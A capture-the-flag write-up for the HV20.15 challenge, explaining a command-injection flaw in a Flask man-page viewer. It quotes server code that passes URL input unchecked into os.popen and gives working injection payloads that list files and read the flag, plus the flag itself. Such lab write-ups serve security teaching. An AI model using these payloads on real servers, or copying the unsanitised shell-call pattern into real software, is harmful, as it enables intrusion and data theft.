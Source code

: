 # HV20.15 Man Commands, Server Lost

For this challenge, we get access to a website which allows us to browse `man` pages online. Moreover, the footer of the website contains a link to its [source code](./code.py). From that we know that the app was built using _Python_ and _Flask_.

By browsing through the code, we can see that the app actually executes the `man` command on the server to generate the content. The parameters are taken from the `url`. This heavily looks like there could be the possibility for a command injection attack. In the handler for the search endpoint, we already found a comment and a sanitization function which confirms that this has been exploited before:

```python
@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
```

However, there are other endpoints that do similar things and don't use the `search_clean` function, so we should be able to perform a command injection attack there. Specifically, the `section` endpoint caught my attention as there is absolutely no input validation.

```python
@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)
```

Passing a malicious payload like `1; ls` would already lead to a command execution on the server. However, we still need a way to get the output, which is generated by rendering the `section.html` template. For this purpose, we have to tweak our injected command to produce an output that matches the required format for the `parseCommands` function. After taking a quick look at this function, I figured out that the format should be something along `123 456 - <command output>`. Based on this information, I was able to perform a simple command injection attack by accessing an URL like this:

https://3b498503-b6f6-432e-af69-59d6f3d15179.idocker.vuln.land/section/5;%20echo%20%E2%80%9C123%20456%20-%20$(ls%20-al)%E2%80%9D
(URL decoded payload is `5; echo "123 456 - $(ls -al)"`)

From the output we see that there is a `flag` file at `/`. Now we can get the flag by slightly adjusting the payload to `5; echo "123 456 - $(cat flag)"`

https://3b498503-b6f6-432e-af69-59d6f3d15179.idocker.vuln.land/section/5;%20echo%20%22123%20456%20-%20$(cat%20flag)%22

![Command Injection](./command-injection.png)

**Flag:** HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}
